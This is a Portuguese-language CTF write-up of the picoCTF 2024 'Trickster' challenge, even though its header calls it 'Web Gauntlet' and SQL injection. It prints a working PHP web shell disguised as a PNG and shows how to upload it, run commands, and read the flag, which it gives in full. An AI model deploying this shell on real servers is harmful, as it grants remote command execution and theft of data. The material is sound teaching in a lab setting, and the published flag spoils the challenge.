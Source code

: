 # DuckWare Team - Web Gauntlet (picoCTF 2024)
###### Solved by @0xpics and @JoaoPedroPiceli
>This CTF is about SQL Injection, Web exploitation

# Desafio: Exploração Web

## Introdução

Este desafio explora vulnerabilidades em aplicações web, exigindo uma abordagem metódica para encontrar e explorar falhas.

- **Página do Desafio:** [Link do Desafio](https://play.picoctf.org/practice/challenge/445)

## Descrição do Desafio

O desafio Trickster do picoCTF 2024 requer análise de páginas web, inspeção de código-fonte e exploração de possíveis falhas na aplicação para encontrar a flag escondida.

## Estratégia de Solução

### Análise Inicial

- **Leitura da Descrição:** Ao entrar na página inicial, encontramos uma funcionalidade que permite o upload de imagens. Isso sugere a possibilidade de explorar o upload de arquivos maliciosos, um vetor de ataque comum em desafios anteriores do time.

[![Captura de Tela](https://i.postimg.cc/Pr136t5q/Captura-de-tela-2025-02-13-194158.png)](https://postimg.cc/cr4BCGYq)

### Explorando o Upload de Arquivos

A abordagem utilizada foi criar um arquivo com código malicioso e tentar fazer o upload mascarando sua extensão. Para isso, utilizamos um arquivo `.php` disfarçado de imagem, nomeado como `png.php`. Esse arquivo contém um **web shell**, permitindo a execução remota de comandos no servidor.

### Código Malicioso Utilizado

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Esse código cria uma interface simples onde podemos inserir comandos no campo de texto e executá-los diretamente no servidor.

## Recuperando a Bandeira

Após realizar o upload do arquivo, acessamos a URL: [http://atlas.picoctf.net:59959/uploads/nomedoarquivo.png.php](http://atlas.picoctf.net:59959/uploads/nomedoarquivo.png.php)

[![Captura de Tela](https://i.postimg.cc/Qd4pmP1t/Captura-de-tela-2.png)](https://postimg.cc/v4ngH0PF)

Agora, com acesso ao terminal via web shell, podemos utilizar os seguintes comandos para listar os arquivos disponíveis:

[![Comandos](https://i.postimg.cc/k5Rtc571/aaaa.png)](https://postimg.cc/94VMXCRZ)

Após executar esse comando, obtemos a listagem de todas as pastas e arquivos disponíveis. O próximo passo é explorar esses arquivos para encontrar a flag.

[![captura-de-todos-os-arquivos-txt.png](https://i.postimg.cc/VkpJdcXj/captura-de-todos-os-arquivos-txt.png)](https://postimg.cc/PCbXR93x)

## Passos Finais

Entre os arquivos listados, um dos que mais chamam a atenção é: `/var/www/html/HFQWKODGMIYTO.txt`. Utilizando o comando `cat` para visualizar seu conteúdo, encontramos a seguinte informação:

[![flag.png](https://i.postimg.cc/15zXBzHG/flag.png)](https://postimg.cc/RqjvV42h)

Ao analisarmos atentamente, verificamos que esse arquivo contém a flag do desafio.

## Flag:

**picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}**
